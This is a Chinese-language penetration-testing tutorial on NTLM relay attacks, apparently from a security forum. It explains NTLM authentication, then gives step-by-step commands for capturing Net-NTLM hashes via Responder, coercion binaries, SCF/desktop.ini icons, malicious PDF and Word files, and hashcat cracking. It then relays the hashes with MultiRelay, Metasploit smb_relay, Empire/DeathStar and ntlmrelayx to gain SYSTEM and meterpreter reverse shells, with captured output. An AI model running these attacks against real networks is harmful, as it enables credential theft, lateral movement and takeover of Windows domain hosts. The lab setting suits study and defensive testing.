


# 内网渗透之NTLM中继劫持 - 先知社区

内网渗透之NTLM中继劫持

- - -

## 协议介绍

NTLM是"NTLAN Manager"的缩写，NTLM是Windows NT早期版本的标准安全协议，Windows 2000支持NTLM是为了保持向后兼容，NTLM是Windows 2000内置三种基本安全协议之一，同时也是为用户提供认证、完整性和机密性的一种网络协议，NTLM协议有NTLM v1，NTLM v2，NTLM Session v2三种版本，协议的交互简图如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128134729-9e02ab02-8db1-1.png)

## 认证过程

NTLM总体上来说就是一种挑战/响应(Challenge/Response)形式的消息，其主要包括三个步骤：

Step 1：客户端向服务器发送一个包含明文登录用户名的请求  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128134910-da6bb1f6-8db1-1.png)

Step 2：Type2 message(challenge):服务端查询用户名是否存在，如果存在则查询本地SAM数据库并从中提取用户的hash值，之后再服务端生成一个16位的随机数(即Challenge)，并使用用户的密码hash值对challenge进行加密，在本地存储一份，同时将其命名为challenge1，之后将challenge明文发送回客户端  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128135728-03053d0c-8db3-1.png)

Step 3：Type3 message(authentication):客户端接收到Challenge后，使用当前登录用户的密码hash对Challenge加密，并将其发送给服务器，随后服务器比较Challenge和存储的加密内容challenge1，如果相同则验证成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128135743-0bb30eb6-8db3-1.png)

## 中继介绍

微软的NTLM SSP(NTLM Security Support Provider)为NTLM认证的实现提供了基本功能，是Windows SSPI(Security Support Provider Interface)的一种具体实现，NTLM SSP只是实现了NTLM认证并没有规定使用什么协议来进行传输，实际上SMB、HTTP、LDAP、MSSQL等协议都可以携带NTLM认证的三类消息，也就是说我们可以通过这些协议来进行攻击，不过需要注意的是用户密码的Hash被称为LM hash或NT Hash(Windows Vista/Windowsserver 2008以后LM hash被弃用)，即所谓的NTLM hash，这类Hash可以用来进行PTT攻击，但并不能用来Relay Attack~  
Relay Attack严格意义上讲是用于网络认证的Net-NTLM Hash的Relay，Net-NTLM Hash是由NTLM认证过程中客户端本地用户密码的Hash对服务端返回的challenge加密后返回给服务器用于验证的Response，所以严格来讲，应该是Net-NTLM Hash Relay

## 中继原理

中继的基本流程如下图所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128140321-d55d756c-8db3-1.png)

在上图中的客户端视角里，攻击者就是他要访问的服务端，它在与攻击者这台主机进行NTLM认证，而整个流程也只有攻击者这台主机与其进行交互，而在服务端的视角里攻击者是客户端，攻击者在向服务端证明自己的身份，通过中间人攻击的方法，攻击者可以伪造成客户端来完成身份验证，其实攻击者所做的事情只是把所有客户端的请求Relay到服务端并把所有服务端的请求Relay到客户端，而在服务端看来一直以来只有攻击者在跟他交互，所以自然而然就认为攻击者就是客户端，这样子攻击者就达到了伪造成真正客户端的目的

## 中继步骤

NTLM中继攻击只需要两步：

-   获取受害者Net-NTLM Hash
-   使用Net-NTLM Hash进行重放攻击

## 哈希获取

### 基本网络命令

整个流程大致如下：

-   用户发送不正确的SMB共享地址，例如：\\Al1ex
-   DNS服务器响应\\Al1ex——NOT FOUND
-   客户端进行LLMNR/NBT-NS广播
-   攻击者告诉客户端它是Al1ex，并接受被害者发送用于认证的NTLM v2哈希值，保存于本地
-   响应者将错误发送回客户端，如果用户不是精于此道的话，通常不会引起警觉

具体实现步骤如下：  
Step 1：在攻击者主机中使用responder([https://github.com/lgandx/Responder)执行如下命令开启监听：](https://github.com/lgandx/Responder)%E6%89%A7%E8%A1%8C%E5%A6%82%E4%B8%8B%E5%91%BD%E4%BB%A4%E5%BC%80%E5%90%AF%E7%9B%91%E5%90%AC%EF%BC%9A)

```plain
responder -I eth0 -f 

#参数说明：
 -I 指定使用的网卡
 -f 允许攻击者查看受害者的主机指纹
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128140919-aa9b1e00-8db4-1.png)  
PS："ON"代表针对服务数据包的监听开启，"OFF"代表关闭监听  
Step 2：模拟用户错误输入一个不能解析的名称(Al1ex）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128140934-b38037e4-8db4-1.png)  
之后在我们的攻击主机中可以看到被记录的Net-NTLM Hash值：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128140947-bb6831d2-8db4-1.png)  
我们使用以下命令也可以在responder中获取到Net-NTLM Hash值：

```plain
> net.exe use \hostshare 
> attrib.exe \hostshare  
> bcdboot.exe \hostshare  
> bdeunlock.exe \hostshare  
> cacls.exe \hostshare  
> certreq.exe \hostshare #(noisy, pops an error dialog) 
> certutil.exe \hostshare  
> cipher.exe \hostshare  
> ClipUp.exe -l \hostshare  
> cmdl32.exe \hostshare  
> cmstp.exe /s \hostshare  
> colorcpl.exe \hostshare #(noisy, pops an error dialog)  
> comp.exe /N=0 \hostshare \hostshare  
> compact.exe \hostshare  
> control.exe \hostshare  
> convertvhd.exe -source \hostshare -destination \hostshare  
> Defrag.exe \hostshare  
> diskperf.exe \hostshare  
> dispdiag.exe -out \hostshare  
> doskey.exe /MACROFILE=\hostshare  
> esentutl.exe /k \hostshare  
> expand.exe \hostshare  
> extrac32.exe \hostshare  
> FileHistory.exe \hostshare #(noisy, pops a gui)  
> findstr.exe * \hostshare  
> fontview.exe \hostshare #(noisy, pops an error dialog)  
> fvenotify.exe \hostshare #(noisy, pops an access denied error)  
> FXSCOVER.exe \hostshare #(noisy, pops GUI)  
> hwrcomp.exe -check \hostshare  
> hwrreg.exe \hostshare  
> icacls.exe \hostshare   
> licensingdiag.exe -cab \hostshare  
> lodctr.exe \hostshare  
> lpksetup.exe /p \hostshare /s  
> makecab.exe \hostshare  
> msiexec.exe /update \hostshare /quiet  
> msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
> mspaint.exe \hostshare #(noisy, invalid path to png error)  
> msra.exe /openfile \hostshare #(noisy, error)  
> mstsc.exe \hostshare #(noisy, error)  
> netcfg.exe -l \hostshare -c p -i foo
```

### 通过系统图标

每个文件夹底下都有个文件desktop.ini来指定文件夹图标之类的，默认不可见，可以通过在控制面板中去掉"隐藏受保护的操作系统文件"看到  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141026-d2f3c938-8db4-1.png)  
每个文件夹底下都会有，我们新建一个新的文件夹的话，如果没看到desktop.ini，可以尝试更改图标，就可以看到了  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141041-dbc69fb8-8db4-1.png)  
之后将图标路径改成UNC路径，指向我们的服务器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141054-e3bafd5e-8db4-1.png)  
当用户访问该文件夹的时候会去访问UNC路径,我们就能获取用户的net-ntlm hash：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141106-eac8d346-8db4-1.png)

### SCF文件利用

scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标，而IconFile是支持UNC路径的，以下是scf后缀的文件的格式

```plain
[Shell]
Command=2
IconFile=\\192.168.188.129\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

新建test.scf，之后写入以上内容并将其放在一个文件夹底下，当用户访问该文件夹的时候，我们就会获得用户的net-ntlm hash~  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141152-062cb3be-8db5-1.png)

### 用户头像利用

此方法适用于Windows 10/2016/2019，在更改账户图片处用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户(域内是机器用户)也去访问192.168.188.129，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个也可以用来提权  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141232-1dad7974-8db5-1.png)  
随后可以获得NTLM-Hash值：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141247-271a3632-8db5-1.png)

### 通过构造PDF获取

PDF规范允许为GoTobe和GoToR条目加载远程内容，PDF文件可以添加一项功能，请求远程SMB服务器的文件，我们直接使用三好学生的脚本[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141316-384b667e-8db5-1.png)  
当受害者使用PDF阅读器打开恶意的PDF时可导致载荷成功执行，并返回NTLM-Hash  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128141345-4931cca8-8db5-1.png)  
PS：经过笔者测试发现如果是使用Chrome或者IE浏览器打开PDF文件，并不会执行~

### Office应用程序

首先新建一个word，贴进一张图片  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143058-b14cf392-8db7-1.png)  
然后用7zip打开(没测试其他软件，可自行测试)，之后进入word\_rels，修改document.xml.rels  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143110-b888d072-8db7-1.png)  
可以看到Target参数本来是本地的路径  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143123-bfd222ac-8db7-1.png)  
修改为UNC路径，然后加上TargetMode="External"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143231-e89bd0fc-8db7-1.png)  
当打开word的时候,我们就拿到Net-NTLM Hash  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143245-f11a212a-8db7-1.png)

### Net-NTLM Crack

我们可以使用hashcat来破解Net-NTLM的哈希值，格式如下：

```plain
hashcat -m 5600 Net-NTLM-Hash  PasswordFileLocation
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143318-0460d0e4-8db8-1.png)  
破解后的结果：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143329-0b3f442c-8db8-1.png)  
通过破解的账户与密码我们即可进行横向移动连接远程主机了：

```plain
./psexec.py hacker/administrator:'admin'@192.168.188.3
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143353-194213e2-8db8-1.png)

## Net-NTLM Relay

### SMB中继

#### 中继原理

客户端在连接服务端时默认先使用本机的用户名和密码Hash尝试登录，所以可以模拟SMB服务器从而截获其它PC的Net-NTLM Hash，而作为中继的机器必须要有域管理员权限或本地管理员权限，且被中继的机器要关闭SMB签名认证，否则无法去做中继。

#### 利用条件

目标SMB签名需要关闭，在SMB连接中需要使用安全机制来保护服务器和客户端之间传输数据的完整性，而这种安全机制就是SMB签名和加密，如果关闭SMB签名，会允许攻击者拦截认证过程并且将获得hash在其他机器上进行重放，从而获得域管权限，目前SMB常用来做为SMB文件共享、打印机，如果签名关闭可能导致文件共享、打印机被入侵，我们可以使用nmap来确定是否关闭：

```plain
nmap -n -p445 192.168.188.3 --script=smb-security-mode
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143508-45d897fa-8db8-1.png)

#### 利用方法

##### Responder

Step 1：进入到/usr/share/responder目录下，编辑Responder.conf文件，设置smb和http为Off，在攻击时直接利用该hash攻击其他机器即可不需要抓取  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143550-5f0587ce-8db8-1.png)  
Step 2：在kali(192.168.188.129)上使用Responder开启监听(这里responder的作用就是当访问一个不存在的共享路径，将名称解析降到LLMNR/NBNS时来抓取网络中所有的LLMNR和NetBIOS请求并进行响应)

```plain
responder -I eth0 -w -r -f
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143717-92be465a-8db8-1.png)  
Step 3：使用Responder的MultiRelay模块，指向域内的一台普通主机

```plain
python MultiRelay.py -t 192.168.188.3 -u ALL
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143742-a1a0285a-8db8-1.png)  
Step 5：在域控server 2012上建立文件共享请求，kali即可接收到192.168.188.3的sytem shell(实战中可以通过钓鱼发起请求)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143753-a846fa1c-8db8-1.png)  
Step 6：之后成功接收到目标主机的Shell(注意在执行命令时需要用双引号包裹，在这里坑了好久，气死了都)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128143825-bb6774d2-8db8-1.png)

##### Metasploit

这里使用MSF框架中的smb\_relay模块来实施SMB中继攻击  
Step 1：设置载荷  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144305-627329d8-8db9-1.png)  
Step 2：执行载荷  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144316-68fb9c2c-8db9-1.png)  
Step 3：在window 7中上执行以下命令来访问恶意SMB服务

```plain
net use \\192.168.188.129\c$
```

Step 4：由于Metasploit的SMBRelay只支持NTLM v1，所以在攻击一些机器时会出现"Failed to authenticate"的情况，但是这种思路是正确的，所以综合来看这种攻击方法在实战中也不是那么被看好  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144339-766a01dc-8db9-1.png)  
下面是一个Windows Server 2003中成功的示例：

```plain
msf exploit(windows/smb/smb_relay) > 
[*] Received 192.168.188.128:1032 X-90E984B4C76D4\Administrator LMHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 NTHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 OS:Windows Server 2003 R2 3790 Service Pack 2 LM:
[*] Authenticating to 192.168.188.128 as X-90E984B4C76D4\Administrator...
[*] AUTHENTICATED as X-90E984B4C76D4\Administrator...
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \hGaRjHmf.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Sending stage (179779 bytes) to 192.168.188.128
[*] Closing service handle...
[*] Deleting \hGaRjHmf.exe...
```

然后直接getshell，还是system权限，因为调用了系统服务：

```plain
msf exploit(windows/smb/smb_relay) > sessions 
Active sessions
===============
  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ X-90E984B4C76D4  192.168.188.136:4444 -> 192.168.138.188:1034 (192.168.188.128)
```

##### Empire

我们也可以使用Empire来进行SMB中继攻击测试，具体步骤如下所示：  
Step 1：启动Empire并清除agent

```plain
./empire --rest --username username --password 123456
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144524-b55fac34-8db9-1.png)  
Step 2：启动Deathstar，ip为攻击机ip，为了接管agent

```plain
python3 DeathStar.py -lip 192.168.188.129 -t 100 -u username -p 123456
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144550-c4f0540a-8db9-1.png)  
Step 3：在empire中生成powershell，此时你会发现多了一个名为DeathStar的listener，之后我们使用该listener来生成powershell代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144610-d0907894-8db9-1.png)  
Step 4：启动responder

```plain
Responder -I eht0 -r -d –v
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144628-db440e0e-8db9-1.png)  
Step 5：之后使用impacket中的ntlmrelayx执行以下命令，条命令是对中继成功的机器自动执行powershell并获取agent，powershell脚本放在引号中

```plain
ntlmrelayx.py -t 192.168.188.3 -c 'powershell -noP -sta -w 1 -enc [powershell code]'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144700-ee6c8a24-8db9-1.png)  
Step 6：在域控上创建共享操作

```plain
net use \\al1ex
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144716-f80f1c0e-8db9-1.png)  
Step 7：之后可以看到对每台PC进行了转发测试，若成功则反弹shell，总体来说效果不是很好，耗时太长了，我也不想等了。。。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144731-012722e6-8dba-1.png)

##### 自动化利用

在实战中我们可以使用Responder + impacket + MSF来实现获取Net-NTLM hash，并通过ntlm中继获得域内普通用户的msf shell，具体步骤如下：  
Step 1：开启Responder监听

```plain
responder -I eth0 -r -d -w
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144811-18e6d4f8-8dba-1.png)  
Step 2：启动MSF的exploit/multi/script/web\_delivery模块

```plain
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
run
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144838-291949be-8dba-1.png)  
Step 3：启动impacket的ntlmrelayx模块

```plain
./ntlmrelayx.py -t ip -c "xxxxxxxxx" -smb2support

#参数说明：
-t : 单一主机
-tf: 主机文件列表，例如:ip.txt
-c : powershell命令
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144906-39678f24-8dba-1.png)  
Step 4：当域控发起请求时，通过NTLM中继，我们可以成功获取到目标主机的Meterpreter会话，如果我们将之前的参数"-t"改为"-tf"，即可获取ip.txt文件中的所有域内主机的Meterpreter会话  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128144924-44251b84-8dba-1.png)

### NTLM中继

#### impacket

我们可以借助impacket的ntlmrelayx.py模块来实现NTLM中继攻击，具体步骤如下：  
Step 1：在攻击机上执行如下命令监听80和445端口，伪造http和smb服务

```plain
python3 ./ntlmrelayx.py -t smb://192.168.188.4 -c whoami -smb2support
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231128145123-8b20f36e-8dba-1.png)  
Step 2：诱导普通域用户或者域管理员用户访问攻击机上搭建的HTTP或SMB服务  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128145134-91c9e072-8dba-1.png)  
Step 3：在攻击主机上可以Relay域用户的Net-NTLM Hash，从而在域内其他主机上执行指定的命令  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231128145148-9a34effe-8dba-1.png)

## 文末小结

Net-NTLM Hash攻击是一个拿域内主机的方法，在横向移动中利用还是挺不错的，可以直接控制域内主机，包括但不限于在远程服务器上执行命令、上传exe到远程主机上执行、dump服务器的用户hash等
